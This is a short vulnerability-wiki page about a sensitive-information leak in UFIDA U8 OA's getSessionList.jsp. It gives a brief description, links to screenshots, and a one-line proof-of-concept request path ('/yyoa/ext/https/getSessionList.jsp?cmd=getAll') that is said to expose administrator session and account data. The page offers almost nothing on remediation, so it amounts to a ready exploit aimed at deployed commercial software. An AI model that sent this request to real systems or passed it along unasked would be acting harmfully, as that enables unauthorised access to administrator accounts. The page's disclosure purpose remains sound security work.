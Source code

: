 # UFIDA U8 OA getSessionList.jsp Sensitive Information Leakage Vulnerability

## Vulnerability Description

UFIDA U8 OA getSessionList.jsp file, through vulnerability attackers, can obtain the account information of administrators in the database

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA U8 OA</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645976459870-e87ed43e-2b7e-432d-b0ca-4909d02748be.png)

Verify POC

```javascript
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645976484402-84e294eb-dd29-4cfa-b8d7-d7ce7b07a7ce.png)